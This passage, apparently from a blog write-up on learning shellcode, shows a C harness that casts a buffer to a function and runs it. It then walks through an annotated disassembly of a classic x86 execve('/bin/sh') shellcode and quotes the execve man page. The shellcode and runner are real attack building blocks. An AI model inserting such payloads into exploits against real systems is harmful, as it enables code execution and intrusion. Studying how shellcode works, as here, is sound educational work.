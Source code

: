 ```c
{
  fprintf(stdout,"Lenght: %d\n",strlen(shellcode));
  (*(void  (*)()) shellcode)();
}
```

Before pressing the `i believe` button, let’s look at what the shell code does though. As usual, I don’t know why `\xcd\x80` calls an interrupt, it just does.

```asm
31 c0                 xor    %eax,%eax          ; Clear eax register (set it to 0)
50                    push   %eax               ; Push null byte onto the stack (used as a terminator)
68 2f 2f 73 68        push   $0x68732f2f        ; Push the string "//sh" onto the stack in reverse order
68 2f 62 69 6e        push   $0x6e69622f        ; Push the string "nib/" onto the stack in reverse order
89 e3                 mov    %esp,%ebx          ; Move the address of the top of the stack (which now contains the "/bin/sh" string) into ebx
89 c1                 mov    %eax,%ecx          ; Move 0 (null) into ecx (will be used as the second argument to execve, argv)
89 c2                 mov    %eax,%edx          ; Move 0 (null) into edx (will be used as the third argument to execve, envp)
b0 0b                 mov    $0xb,%al           ; Move the syscall number for execve (11) into al
cd 80                 int    $0x80              ; Invoke the syscall (execve("/bin/sh", 0, 0))
31 c0                 xor    %eax,%eax          ; Clear eax register (set it to 0)
40                    inc    %eax               ; Increment eax (set it to 1, which is the syscall exit number)
cd 80                 int    $0x80              ; Invoke the syscall (exit)
```

If you look closely, we’re reversing *”/bin/sh”* for the little endian format. Anyway, `execve` allows us to execute a program, or so it says in the `man-pages`:

```man
execve(2)                                       System Calls Manual                                      execve(2)

NAME
       execve - execute program

LIBRARY
       Standard C library (libc, -lc)

SYNOPSIS
       #include <unistd.h>

       int execve(const char *pathname, char *const _Nullable argv[],
                  char *const _Nullable envp[]);

DESCRIPTION
       execve() executes the program referred to by pathname.  This causes the program that is currently being run
       by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initial‐
       ized and uninitialized) data segments.
```
